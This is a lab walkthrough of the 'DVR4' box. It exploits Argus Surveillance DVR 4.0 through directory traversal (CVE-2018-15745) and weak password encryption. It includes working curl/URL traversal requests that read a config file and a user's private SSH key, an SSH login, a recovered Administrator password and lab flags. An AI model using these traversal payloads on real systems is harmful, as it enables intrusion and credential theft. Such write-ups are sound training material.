 # DVR4 \[Inter]

## Report

Argus Surveillance DVR Version: 4.0 is vulnerable to directory traversal and weak password encryption, use the former to read private SSH keys of user 'viewer' and the latter to read the encrypted password of Administrator.

## Enumeration

192.168.171.179

```
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           Bitvise WinSSHD 8.48 (FlowSsh 8.48; protocol 2.0; non-commercial use)
| ssh-hostkey: 
|   3072 21:25:f0:53:b4:99:0f:34:de:2d:ca:bc:5d:fe:20:ce (RSA)
|_  384 e7:96:f3:6a:d8:92:07:5a:bf:37:06:86:0a:31:73:19 (ECDSA)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http-proxy
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Argus Surveillance DVR
|_http-generator: Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]
```

### Files

`C:\programdata\PY_Software\Argus Surveillance DVR\DVRParams.ini`

We didn't get the ride via directory traversal but once we got the shell it just had to be.\
In the curl request, the entire contents don't get displayed probably due to an output limit

### Initial Foothold

#### 80

Argus Surveillance Version: 4.0

{% embed url="https://www.exploit-db.com/exploits/50130" %}
crack hashed password
{% endembed %}

{% code title=" 2018-15745 Directory Traversal" %}
```
curl "http://192.168.171.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FProgramData%2FPY_Software%2FArgus%20Surveillance%20DVR%2FDVRParams.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
[Main]
ServerName=
ServerLocation=
ServerDescription=
ReadH=0
UseDialUp=0
DialUpConName=
DialUpDisconnectWhenDone=0
DIALUPUSEDEFAULTS" checked checked
```
{% endcode %}

The file which was supposed to have the password file didn't, try to get SSH keys after checking users registered - see Administrator and Viewer

```
http://192.168.171.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=
ssh -i id_rsa viewer@192.168.171.179
```

## PrivEsc

WinPEAS and PoweUp.ps1 didn't give us much - the mono output also made it real difficult

Read the  `DVRParams.ini` file again, this will have the password and decrypt using the CVE

## Loot

### Creds

SSH key for 'viewer'

`Administrator:14WatchD0g$`

### Flags

Local - 662ec009092c8c1c625bc738a92caf92

Proof - 26e7282a91e240b844abf0b150b7b7cb

## Proof

Don't be a one read QB, look past the blitz come on you got this
